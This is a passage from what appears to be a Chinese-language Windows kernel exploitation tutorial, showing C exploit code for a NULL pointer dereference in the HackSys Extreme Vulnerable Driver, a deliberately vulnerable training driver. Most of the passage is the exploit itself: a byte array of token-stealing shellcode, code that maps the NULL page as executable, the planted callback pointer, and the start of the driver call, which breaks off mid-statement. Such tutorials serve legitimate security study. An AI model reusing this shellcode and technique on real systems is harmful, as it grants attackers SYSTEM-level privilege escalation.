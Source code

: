 最后，我们在4h设置一个指向Shellcode的指针，这是驱动程序使用的Callback()属性的32位偏移量：

```
// Set the -&gt;Callback() function pointer
*(unsigned long long *)0x04 = 0x100;
```

结合起来，我们最终的漏洞利用代码如下：

```
#include "stdafx.h"

#define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE        CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80A, METHOD_NEITHER, FILE_ANY_ACCESS)

// Shellcode to be executed by exploit
const char shellcode[256] = `{`
    0x60, 0x64, 0xa1, 0x24, 0x01, 0x00, 0x00, 0x8b, 0x80, 0x50,
    0x01, 0x00, 0x00, 0x81, 0xb8, 0x7c, 0x01, 0x00, 0x00, 0x63,
    0x6d, 0x64, 0x2e, 0x74, 0x0d, 0x8b, 0x80, 0xb8, 0x00, 0x00,
    0x00, 0x2d, 0xb8, 0x00, 0x00, 0x00, 0xeb, 0xe7, 0x89, 0xc3,
    0x83, 0xb8, 0xb4, 0x00, 0x00, 0x00, 0x04, 0x74, 0x0d, 0x8b,
    0x80, 0xb8, 0x00, 0x00, 0x00, 0x2d, 0xb8, 0x00, 0x00, 0x00,
    0xeb, 0xea, 0x8b, 0x88, 0xfc, 0x00, 0x00, 0x00, 0x89, 0x8b,
    0xfc, 0x00, 0x00, 0x00, 0x61, 0xc3, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
`}`;

void exploit(void) `{`
    DWORD BytesReturned;

    DWORD oldProt;

    // Make sure that NULL page is RWX
    VirtualProtect(0, 4096, PAGE_EXECUTE_READWRITE, &amp;oldProt);

    // Set the -&gt;Callback() function pointer
    *(unsigned long long *)0x04 = 0x100;

    // Copy our shellcode to the NULL page at offset 0x100
    RtlCopyMemory((void*)0x100, shellcode, 256);

    HANDLE driverHandle = CreateFileA(
        "\\.\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
```